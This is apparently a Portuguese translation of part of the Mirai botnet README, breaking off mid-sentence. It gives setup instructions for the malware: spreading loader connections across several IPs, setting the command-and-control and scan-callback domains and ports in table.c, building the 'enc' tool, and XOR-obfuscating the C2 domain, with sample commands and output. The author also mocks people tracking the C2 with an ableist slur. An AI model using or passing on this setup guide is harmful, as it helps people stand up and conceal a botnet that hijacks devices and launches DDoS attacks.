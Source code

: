 O loader pode ser configurado para usar múltiplos endereços IP para bypassar a exaustão de porta do linux (existe um limite do número de portas disponíveis, o que significa que não tem o suficiente para uma variação na tupla para ter mais do que 65k de saídas externas - em teoría, esse valor é muito menor na prática). Eu tenho por volta de 60k-70k de conexões simultâneas externas (carregamento simultâneo) espalhado por 5 IPs.



# configurando o bot

O bot tem diversas opções de configurações que são obfuscadas em `table.c/table.h`.
Em [`./mirai/bot/table.h`](mirai/bot/table.h) nós podemos achar a maioria das descrições para
as opções de configurações. Entretanto, em [`./mirai/bot/table.c`](mirai/bot/table.c)
existem algumas opções que você *precisa* mudar para continuar funcionando.


* `TABLE_CNC_DOMAIN` - Domain name do CNC para conecta para - evitador de DDoS bem divertido com a mirai
   muito divertido com mirai, as pessoas tentão se
   conectar com meu CNC mas eu atualizo mais rápido do que eles conseguem achar meu novo endereço de IPs, 
  lol. Retardados :)
* `TABLE_CNC_PORT` - Porta para conectar para, já definida na 23
* `TABLE_SCAN_CB_DOMAIN` - Quando encontra resultados brutos, esse domínio é reportado para
* `TABLE_SCAN_CB_PORT` - Porta para conectar para por resultados brutos, já está configurada para
  `48101`.

Em [`./mirai/tools`](mirai/tools) você irá encontrar algo chamado enc.c - você
deve compilar ele para ter saída de coisas para colocar no arquivo table.c

Rode isso dentro do diretório da mirai

    ./build.sh debug telnet

Você terá alguns erros relacionados ao cross-compile não estar lá se você não os tiver configurado.
Isso é ok, não afetará a compilação da ferramenta enc

Agora, na pasta `./mirai/debug` você deve ver um binário compilado chamaco enc.
Por exemplo, para obfuscar uma string para o nome de domínip para os bots se conectarem, use isso:


    ./debug/enc string fuck.the.police.com

A saída deve ser algo como:

    XOR'ing 20 bytes of data...
    \x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22

Para atualizar o valor de `TABLE_CNC_DOMAIN` por exemplo, subtitua por uma string long hex
com a ferramenta enc. Também, você verá `XOR'ing 20 bytes of data`.
Esse valor deve ser trocado pelo último argumento. Como exemplo, a linha table.c
originalmente se parece assim


    add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com

Agora que nós conhecemos o valor da ferramenta enc, nos iremos atualizar como
